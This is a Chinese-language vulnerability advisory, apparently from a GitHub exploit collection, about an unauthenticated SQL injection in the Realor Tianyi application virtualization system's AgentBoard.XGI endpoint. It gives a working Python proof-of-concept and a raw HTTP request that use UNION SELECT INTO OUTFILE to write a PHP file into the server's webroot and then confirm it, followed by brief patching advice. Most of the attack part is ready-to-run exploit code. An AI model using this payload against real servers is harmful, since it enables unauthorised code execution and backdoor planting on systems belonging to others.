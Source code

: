 # 瑞友天翼应用虚拟化系统 AgentBoard.XGI 远程代码执行漏洞

## 漏洞描述

瑞友天翼应用虚拟化系统是基于服务器计算架构的应用虚拟化平台，它将用户各种应用软件集中部署到瑞友天翼服务集群，客户端通过 WEB 即可访问经服务器上授权的应用软件，实现集中应用、远程接入、协同办公等。未经身份认证的远程攻击者可以利用系统中存在的 SQL 注入漏洞，写入后门文件，从而执行远程代码。

## 漏洞影响

```
5.x <= 瑞友天翼应用虚拟化系统 <= 7.0.3.1
```

## 漏洞复现

poc

```
import requests
import sys

url = sys.argv[1]
payload="/AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C1.php%22+--+-&cmd=UserLogin"
repose = requests.get(url=url+payload)
if repose.status_code ==200:
    a = url + '1.php'
    b = requests.get(url=a)
    if b.status_code == 200:
        print('[+] 漏洞存在，验证地址: {}1.php '.format(url))
```

payload

```
GET /AgentBoard.XGI?user=-1%27+union+select+1%2C%27%3C%3Fphp+phpinfo%28%29%3B%3F%3E%27+into+outfile+%22C%3A%5C%5CProgram%5C+Files%5C+%5C%28x86%5C%29%5C%5CRealFriend%5C%5CRap%5C+Server%5C%5CWebRoot%5C%5C2.php%22+--+-&cmd=UserLogin HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: CookieLanguageName=ZH-CN; CookieAuthType=0
Upgrade-Insecure-Requests: 1
```

## 漏洞修复

1. 避免将该系统开放至公网。
2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，建议您在升级前做好数据备份工作，避免出现意外，酌情升级至安全版本：http://soft.realor.cn:88/Gwt7.0.4.1.exe